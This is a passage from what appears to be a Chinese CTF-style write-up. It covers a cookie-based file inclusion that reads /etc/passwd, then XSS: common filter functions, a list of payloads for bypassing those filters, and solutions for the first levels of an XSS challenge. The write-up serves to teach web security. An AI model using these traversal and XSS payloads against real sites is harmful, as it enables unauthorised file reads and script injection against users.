 查看源码发现需要传入cookie，最终include的是cookie中TEMPLATE的值，故传入即可。payload：

```
../../../../../../etc/passwd
```

### 0x03 XSS

> xss(跨站脚本攻击)是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。
>
> xss攻击通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。这些恶意网页程序通常是JavaScript，但实际上也可以包括Java，VBScript，ActiveX，Flash或者甚至是普通的HTML。攻击成功后，攻击者可能得到更高的权限（如执行一些操作）、私密网页内容、会话和cookie等各种内容。                                                                   --来自维基百科

一般会遇到的过滤函数：

1. ```htmlspecialchars()```: 函数把预定义的字符转换为 HTML 实体
   - 范围: `<> & "`.
   - `'` 默认配置不被过滤.
2. `str_replace()`: 替换函数，注意它只替换**一轮**，并且**区分大小写**. 当被替换的目标串为空，可以考虑**双写**饶过.
3. `strtolower()` 函数将字符串转化为小写，防止大小写绕过.
4. `strpos()` 函数查找字符串在另一字符串中第一次出现的位置，并且**对大小写敏感**.
5. `angularjs` 中的 `ng-include`, 相当于 PHP 中 `include` 函数，能够包含其他文件.

积累一些基本的xss的payload：

```js
<script>alert(1)</script>
<scRIpT>new class extends confirm`4`{}</SCripT> //绕过script大小写，括号，alert等函数
<script>(((confirm)))`666`</script> // 绕过括号，alert等函数限制
<script>co\u006efirm(666)</script>
<svg/onload=alert(1)>
<script>{confirm`NB`}</script>
<script>alert`111`</script>
%3c/title%3e%3cscript%3ealert`%22xss%22`%3c/script%3e
```

##### Level-1

使用最基本的payload：

```js
<script>alert(/xss/)</script>
```

##### Level-2

查看源码发现htmlspecialchars过滤了，不过这里可以通过```<input>```标签处的闭合来进行代码注入，payload：

```js
?keyword=aaa"> <script>alert(/xss/);</script>
```

虽然多了个```">```，但也还是能执行。

##### Level-3

跟上一题相比，value里面的str也被过滤了，标签无法使用，但是可以加监听事件来实现代码执行，payload：
